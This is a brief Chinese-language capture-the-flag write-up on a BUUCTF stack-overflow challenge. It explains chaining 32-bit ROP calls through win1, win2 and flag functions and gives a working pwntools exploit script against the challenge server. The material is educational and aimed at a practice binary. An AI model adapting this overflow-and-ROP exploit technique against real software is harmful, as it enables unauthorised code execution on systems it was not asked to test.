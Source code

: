 ### 32 位连续 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a9a1d4d0e0a243d4fdded2.png)

在 main 函数中发现漏洞函数

![](https://pic1.imgdb.cn/item/67a9a1e3d0e0a243d4fdded4.png)

明显栈溢出

![](https://pic1.imgdb.cn/item/67a9a1f6d0e0a243d4fddedd.png)

有个 flag 函数，要求是 win1、win2 为真且 a1 等于一个值

![](https://pic1.imgdb.cn/item/67a9a214d0e0a243d4fddee6.png)

选中数值右键 Hexdecimal 转为十六进制 0xDEADBAAD

![](https://pic1.imgdb.cn/item/67a9a33ed0e0a243d4fddf3a.png)

函数 function1 中定义的 win1 的值

![](https://pic1.imgdb.cn/item/67a9a388d0e0a243d4fddf51.png)

在 function2 中我们要传入 a1 = 0xBAAAAAAD

![](https://pic1.imgdb.cn/item/67a9a3acd0e0a243d4fddf5e.png)

回想 32 位 ROP 方式是函数 + 返回地址 + 参数

则 win1 的返回地址是 win2，win2 返回地址是 flag

构造 payload

```python
from pwn import *

sh = remote('node5.buuoj.cn',27251)

a1_win2 = 0xBAAAAAAD
a1_flag = 0xDEADBAAD
win1 = 0x80485cb
win2 = 0x80485d8
flag = 0x804862b

payload = b'a'*(0x18 + 4) + p32(win1) + p32(win2) + p32(flag) + p32(a1_win2) + p32(a1_flag)

sh.sendline(payload)
sh.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a9a49fd0e0a243d4fddfac.png)